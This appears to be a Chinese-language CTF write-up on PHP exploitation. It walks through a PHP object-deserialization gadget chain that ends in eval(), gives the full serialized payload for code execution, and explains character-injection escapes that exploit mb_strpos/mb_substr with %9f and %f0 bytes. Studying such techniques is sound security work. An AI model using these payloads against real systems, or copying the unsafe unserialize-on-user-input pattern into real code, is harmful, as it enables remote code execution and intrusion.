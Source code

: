 ```PHP
if(isset($_GET['data'])){
    $a = unserialize($_GET['data']);
}
```

构造链的过程：

`__destruct()` > `check()`【payl0ad为1】 > 【what为class001】对象作为函数调用 > `__invoke()` > 【payl0ad为dangerous, a为class001】为不存在的payload赋值 > `__set(payload, dangerous)` > `dangerous(this->sec)` > 【sec为class003, 作为whaattt执行->evvval(class003)】 > 对象作为字符串 > `__toString()`返回mystr【mystr为执行的命令】 > `eval(mystr)`

最终构造的`data`展开：

```PHP
O:8:"class000":2:{
    s:7:"payl0ad";i:1;
    s:4:"what";O:8:"class001":2:{
        s:7:"payl0ad";s:9:"dangerous";
        s:1:"a";O:8:"class002":1:{
            s:3:"sec";O:8:"class003":1:{
                s:5:"mystr";s:10:"phpinfo();";
            };
        };
    };
}
```

假设没有eval函数的情况，使用`system(ls)`命令进行RCE

**字符注入**

`mb_strpos`与`mb_substr`连用导致字符注入

```PHP
function substrstr($data){
    $start = mb_strpos($data, "["); // 字符 "[" 首次出现的索引, 否则false
    $end = mb_strpos($data, "]");
    
    return mb_substr($data, $start, $end + 1 - $start);// 多字节字符集的子字符串提取
}   // '[' 开始 ']' 结束的所有字符

$key = substrstr($_GET[0]."[helloJshirobro]"); // 注入点
echo $key
// ?0=%9f              start=0, end=6, key=?[hello ?是字符乱码
// ?0=%f0              start=1, end=7, key=llo]
// ?0=%9f%9f%9f%9fabcd start=4, end=10, key=abcd[he
// ?0=%f0abc%9f        start=4, end=10, key=ello] 效果类似右移(3-1)位
// %f0abc%0abc%9f:效果为右移(2*3-1)位
```

**任意字符串构造**

- **`%9f`不解析，造成字符串后移一位：%9f数量等于要构造的字符串长度`%9f%9fab`**
- **`%f0`**吞掉字符串三位：%f0加随便三个字符，结合%9f的后移，**`%f0abc%9f`**达到字符串逃逸

注：`substrtr`函数逃逸出的字符不能大于原来的字符数量，此时可通过其他`GET`传入增加字符数量
